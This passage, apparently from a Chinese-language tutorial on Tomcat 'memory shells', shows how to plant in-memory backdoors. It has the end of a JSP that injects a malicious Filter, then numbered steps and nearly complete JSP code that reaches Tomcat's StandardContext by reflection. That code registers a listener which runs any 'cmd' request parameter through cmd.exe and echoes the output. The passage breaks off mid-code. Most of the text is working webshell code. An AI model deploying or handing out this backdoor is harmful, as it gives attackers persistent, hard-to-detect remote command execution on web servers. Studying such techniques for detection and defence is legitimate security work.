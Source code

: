 ```jsp
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
        //将filterConfig存入filterConfigs，等待filterchain.dofilter的调用
        filterConfigs.put(name, filterConfig);
        out.print("Inject Success !");
    }
%>
<html>
<head>
    <title>filtershell</title>
</head>
<body>

</body>
</html>
```



**动态注册Listener**

- 1、首先通过反射，从request中获取Tomcat中控制Web应用的Context（StandardContext对象）

- 2、创建一个ServletRequestListener对象并重写其requestDestroyed方法，在其中实现命令执行并通过response回显.

- 3、将创建的ServletRequestListener对象通过StandardContext添加到事件监听中去

  

```jsp
<%-- Tomcat8添加 SequestServletListener实现内存马
    添加之后全路径可用，所有的请求都会过requestServletListener
--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    String name = "listernshell";
    // 获取上下文
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    ServletRequestListener listener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
```